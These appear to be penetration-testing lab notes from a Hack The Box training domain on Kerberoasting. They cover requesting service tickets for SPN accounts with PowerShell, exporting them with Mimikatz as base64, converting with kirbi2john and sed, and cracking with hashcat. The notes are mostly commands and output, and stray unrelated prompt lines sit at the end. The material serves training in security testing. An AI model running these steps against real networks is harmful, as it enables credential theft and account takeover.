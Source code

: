 We are requesting TGS tickets for an account mssqlsvc and load them into memory to later extract using Mimikatz

* `PS C:\htb> setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }` → request tickets for all accounts with SPNs set.

Now lets extract tickets from mimikatz

```
Using 'mimikatz.log' for logfile : OK

mimikatz # base64 /out:true
isBase64InterceptInput  is false
isBase64InterceptOutput is true

mimikatz # kerberos::list /export

<SNIP>

[00000002] - 0x00000017 - rc4_hmac_nt
   Start/End/MaxRenew: 2/24/2022 3:36:22 PM ; 2/25/2022 12:55:25 AM ; 3/3/2022 2:55:25 PM
   Server Name       : MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433 @ INLANEFREIGHT.LOCAL
   Client Name       : htb-student @ INLANEFREIGHT.LOCAL
   Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ;
====================
Base64 of file : 2-40a10000-htb-student@MSSQLSvc~DEV-PRE-SQL.inlanefreight.local~1433-INLANEFREIGHT.LOCAL.kirbi
====================
doIGPzCCBjugAwIBBaEDAgEWooIFKDCCBSRhggUgMIIFHKADAgEFoRUbE0lOTEFO
RUZSRUlHSFQuTE9DQUyiOzA5oAMCAQKhMjAwGwhNU1NRTFN2YxskREVWLVBSRS1T
UUwuaW5sYW5lZnJlaWdodC5sb2NhbDoxNDMzo4IEvzCCBLugAwIBF6EDAgECooIE
<...................SNIP...................>
LkxPQ0FMqTswOaADAgECoTIwMBsITVNTUUxTdmMbJERFVi1QUkUtU1FMLmlubGFu
ZWZyZWlnaHQubG9jYWw6MTQzMw==
====================

   * Saved to file     : 2-40a10000-htb-student@MSSQLSvc~DEV-PRE-SQL.inlanefreight.local~1433-INLANEFREIGHT.LOCAL.kirbi

<SNIP>
```

if we do not specify  `base64 /out:true` , mimikatz will extract the tickets and write them to `.kirbi` files

* decode this base64 Blob and save into file`sqldev.kirbi`
* then use `kirbi2john` to extract Kerberos Ticket.
*   `dollarboysushil@htb[/htb]**$** sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat` → modify the file/hash for Hashcat

    \*\*$\*\*krb5tgs$23$_sqldev.kirbi_$813149fb261549a6a1b38e71a057feeab → it will look something like this
* `hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt` → finally cracking the hash.


[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> Exit-PSSession
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\backupadm\Documents> klist